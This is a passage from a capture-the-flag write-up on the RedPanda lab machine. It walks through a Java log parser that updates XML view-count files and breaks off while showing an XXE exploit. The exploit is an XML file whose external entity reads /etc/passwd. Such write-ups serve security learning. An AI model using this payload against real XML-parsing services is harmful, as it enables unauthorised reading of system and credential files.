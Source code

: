 ```shell
                    rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                    Integer views = Integer.parseInt(el.getChild("views").getText());
                    el.getChild("views").setText(Integer.toString(views + 1));
                }
            }
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
    public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);
        while(log_reader.hasNextLine())
        {
            String line = log_reader.nextLine();
            if(!isImage(line))
            {
                continue;
            }
            Map parsed_data = parseLog(line);
            System.out.println(parsed_data.get("uri"));
            String artist = getArtist(parsed_data.get("uri").toString());
            System.out.println("Artist: " + artist);
            String xmlPath = "/credits/" + artist + "_creds.xml";
            addViewTo(xmlPath, parsed_data.get("uri").toString());
        }

    }
}
```

The code creates a log called `redpanda.log`. Then creates a variable artist by calling the function `getArtist()`. This function reads the metadata inside an image and then searches inside the directories contained in it. Then the code creates a new xml file and it's passed to the function `addViewTo()`. Then the function `addViewTo()` parses the XML, increments the view count for that image, and then writes the file back.

## Exploitaiton x2

We can try to exploit an XXE File Read vulnerability by inputting the correct metadata inside and image being read by the code.
- NOTE: I'll append the schema made by [0xdf](https://0xdf.gitlab.io/2022/11/26/htb-redpanda.html) because I liked it after finishing the machine:

![](Pasted%20image%2020250604201800.png)

First, I downloaded an xml generated by the app and then I modified it with the XXE payoad:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
    <test>&xxe;</test>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
```